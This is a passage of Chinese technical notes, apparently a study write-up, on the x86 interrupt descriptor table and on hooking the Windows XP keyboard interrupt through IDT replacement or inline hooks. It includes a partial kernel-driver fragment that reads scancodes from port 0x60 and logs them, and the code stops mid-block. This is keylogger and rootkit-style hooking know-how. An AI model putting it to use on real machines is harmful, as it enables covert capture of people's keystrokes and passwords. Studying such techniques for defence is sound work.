 LIDT和SIDT指令分别用于加载和保存IDTR寄存器的内容。




### 利用中断Hook键盘
通过windbg !idt -a可可以看到

Xp的键盘中断在0x93号

IDT hook  直接替换中断处理函数
inline hook 对中断处理函数jmp后的函数下hook
```c++

#include <ntifs.h>


void UnRegisterSystemCall();


#pragma pack(push)
#pragma pack(1)
//GDTR LDTR IDTR
struct DTRRegister {
  unsigned short limit;
  ULONG_PTR base;
};
#pragma pack(pop)

typedef union InterruptAndTrapGate {
  struct {
    ULONGLONG Offset_15_0 : 16;
    ULONGLONG Segment_Selector : 16;
    ULONGLONG Reserve2 : 5;
    ULONGLONG Unknown : 3;
    ULONGLONG Type : 4;
    ULONGLONG S : 1;
    ULONGLONG DPL : 2;
    ULONGLONG P : 1;
    ULONGLONG Offset_31_16 : 16;
  }field;
  ULONGLONG all;
}IDTGate;

union  GateBase {
  DWORD32 base;
  struct {
    DWORD32 Base_15_0 : 16;
    DWORD32 Base_31_16 : 16;
  }field;
};

GateBase gbase = { 0 };
bool flag = 0;
void callbackkeybiard(){
  //获取按键
  unsigned char scancode = 0;
  
  // 写入按键
  if (flag == 0) {
    __asm {
      in al, 60h
      mov scancode, al
    }
    DbgPrint("callbackkeybiard: 0x%02x", scancode);
    __asm {
```